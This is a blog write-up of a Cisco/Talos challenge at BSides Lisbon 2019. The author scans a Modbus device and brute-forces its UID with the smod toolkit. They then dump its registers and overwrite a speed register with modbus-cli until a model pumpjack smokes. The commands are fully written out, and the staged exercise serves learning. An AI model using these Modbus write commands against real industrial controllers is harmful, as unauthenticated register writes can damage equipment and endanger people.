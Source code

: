 ```yaml
---
layout: post
title: "Make it smoke! Cisco Challenge Write-up"
categories: [infosec, iot]
tags: [bsideslisbon, infosec, iot, cisco]
thumbnail: /images/bsideslx19/final.png
description: "Write-up of a sidequest challenge by Cisco/Talos during BSidesLisbon 2019"
---
```


[BSides Lisbon](https://bsideslisbon.org/) is the biggest security dedicated event in Portugal, with two days of talks, workshops, a CTF competition, and lots more. During BSides, some _sidequests_ ranging from raffles to challenges appear that can give you prizes*!* This is a write-up of one of those challenges by Cisco/Talos.

<!--more-->

## The Challenge

![Make it Smoke!](/images/bsideslx19/header.png)

In the booth of Cisco/Talos, we were presented with the following scenario (as it can be seen in the picture):

1. An access point (AP) named `security` with the password `cisco12345`.
2. A 3d-printed pumpjack[^1].
3. Some controlling system based on Arduino.
4. The objective was to make it smoke somehow.

## Preliminaries

First thing first, connect to the network and do a quick network and port scan. Since it was an AP for everyone that wanted to do the challenge, several IP's showed up, but only one interesting, the `10.10.10.1` with the port `502` open.

As per Siemens documentation: _By default, the protocol uses Port `502` as local port in the Modbus server_[^2]. Thus we are probably faced with something that speaks _Modbus_ protocol.

With a little of search, you can find a lot of _Modbus_ protocol clients in the wild, as well as some _offensive_ toolkits.

## Making it smoke!

Using the [smod-1 by theralfbrown](https://github.com/theralfbrown/smod-1) toolkit, I was able to connect to the Modbus system and interact with it.

{% highlight bash %}
$ python smod.py
SMOD > use modbus/scanner/uid
SMOD modbus(uid) > set RHOST 10.10.10.1
SMOD modbus(uid) > exploit
[+] Module Brute Force UID Start
[+] Start Brute Force UID on : 10.10.10.1
[+] UID on 10.10.10.1 is : 10
{% endhighlight %}

Now I did know the UID of the Modbus, however even after exploring the DoS capabilities and _all_ the reader modules I was not getting anywhere close to make it smoke.

So, after exploring a little more one Github, I found out this really nice [modbus-cli by tallakt](https://github.com/tallakt/modbus-cli).

Even if it was not implemented with an _offensive_ mindset like the previous tool, it allowed us to read, write and **dump** the memory of a _Modbus_ device. Using it, we were able to read random parts of the memory, _e.g._, reading five words from the device starting from address `%MW100` (which corresponds to address `400101`).

{% highlight bash %}
$ modbus read 10.10.10.1 %MW100 5
%MW100 0
%MW101 0
%MW102 0
%MW103 0
%MW104 0
{% endhighlight %}

After trying to read random places of the memory using this tool and finding nothing but zero values, and decided to just _dump_ everything into a file (the operation took around 20 seconds).

{% highlight bash %}
$ modbus read --output mybackup.yml 10.10.10.1 400001 1000
{% endhighlight %}

After dumping all the memory into a file, looking into the file:

{% highlight bash %}
$ cat mybackup.yml

---

:host: 10.10.10.1
:port: 502
:slave: 1
:offset: '400001'
:data:

- 0
- 0
- 0
- 0
- 0
- 0
- 5000
- 0
  -- show more --
  {% endhighlight %}

The file keeps going on, with a lot of zero's and a lot of random values. I guess that those random values were the result of all the participants trying to _pwn_ it.

However, that seventh value caught my attention because it was a single round number. Maybe that was the speed of the rotation mechanism of the pumpjack, _maybe_.

Checking if the dump was correct, with the same tool we could read that specific part of the memory:

{% highlight bash %}
$ modbus read 10.10.10.1 400001 7
400001 0
400002 0
400003 0
400004 0
400005 0
400006 0
400007 8000
{% endhighlight %}

And yep, the value was still there, but a bit higher (and we could observe the pumpjack rotating more quickly).

So the next step was to try to write some higher value there:

{% highlight bash %}
$ modbus write 10.10.10.1 400007 10000
{% endhighlight %}

And then, _higher_:

{% highlight bash %}
$ modbus write 10.10.10.1 400007 18000
{% endhighlight %}

And this was it, the increase in the rotation speed of the pumpjack triggered the smoke device that was connected to the Arduino!

![Running like hell!](/images/bsideslx19/final.png)

This was my first time playing around with _Modbus_, and there is still a lot that I didn't touch nor understood. Nonetheless, it was a nice kickstart.

Props to Cisco and Talos for coming up with the challenge and for the coffee mug and the [_snort_](https://www.snort.org/). And _pwning_ IoT is the best kind of _pwn_.

### References

[^1]: [Pumpjack on Wikipedia](https://en.wikipedia.org/wiki/Pumpjack)
[^2]: [Which ports are released for Modbus/TCP communication](https://support.industry.siemens.com/cs/document/34010717/which-ports-are-released-for-modbus-tcp-communication-and-how-many-modbus-clients-can-communicate-with-a-simatic-s7-pn-cpu-as-modbus-server-?dti=0&lc=en-WW)
